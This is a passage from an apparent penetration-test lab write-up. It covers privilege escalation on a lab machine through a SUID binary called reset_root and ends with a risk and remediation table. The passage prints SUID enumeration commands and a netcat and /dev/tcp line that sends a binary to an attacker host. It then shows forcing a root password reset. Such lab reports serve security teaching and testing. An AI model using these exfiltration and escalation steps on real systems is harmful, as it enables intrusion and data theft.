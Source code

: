 From interactive shell (`whoami` → `apache`), local enumeration was performed to find SUID files and other weaknesses:

```bash
find / -perm -u=s -type f 2>/dev/null
# output included: /usr/bin/reset_root
```

Direct execution failed or behaved unexpectedly — so the binary was exfiltrated for local analysis:

**Exfiltrate binary via netcat**

* On attacker: `nc -lvnp 3333 > reset_root`
* On target: `cat /usr/bin/reset_root > /dev/tcp/192.168.10.10/3333`

Analyze locally:

```bash
file reset_root
ltrace ./reset_root
```

`ltrace` displayed file operations and pointed to several missing files the binary expected to find on the target. Those files were recreated on the target (via admin shell / touch commands) with the paths discovered by `ltrace`.

After creating the expected files, re-running `/usr/bin/reset_root` on the target resulted in resetting the root password to `Earth` (as per the binary behavior). Then:

```bash
su root
# password: Earth
```

This granted a root shell and allowed reading the root flag (e.g., `/root/root.txt`).

**Impact:** Full system compromise due to insecure privileged binary.

---

### 5.6 Post-Exploitation

With root access, the following were performed to confirm ownership and to collect evidence:

* Enumerated `root` home directory and captured `root.txt` (flag).
* Checked for persistence mechanisms (no SSH keys or cron jobs were left by us; no permanent persistence found by the test).

**Note:** In a real-world engagement, persistence actions would be carefully documented and only performed if within scope and with explicit permission. In this lab, actions were limited to evidence capture.

---

## 6. Risk Ratings & Recommendations

**Summary table**

| Vulnerability                           | Severity | Likelihood | Impact                | Recommendation                                                                        |
| --------------------------------------- | -------: | ---------: | --------------------- | ------------------------------------------------------------------------------------- |
| SUID binary `reset_root` exploitable    | Critical |     Medium | Full root compromise  | Remove SUID, patch binary to validate environment, audit privileged binaries          |
| Admin panel allowing command execution  |     High |     Medium | RCE / data exposure   | Remove direct OS command capabilities, use strict auth + input validation             |
| XOR encryption with public key          |   Medium |       High | Credential disclosure | Do not expose test keys; use standard crypto and safe storage                         |
| SSL cert SANs reveal internal hostnames |      Low |       High | Easier recon          | Avoid exposing internal hostnames in public certs; use internal CA for internal names |
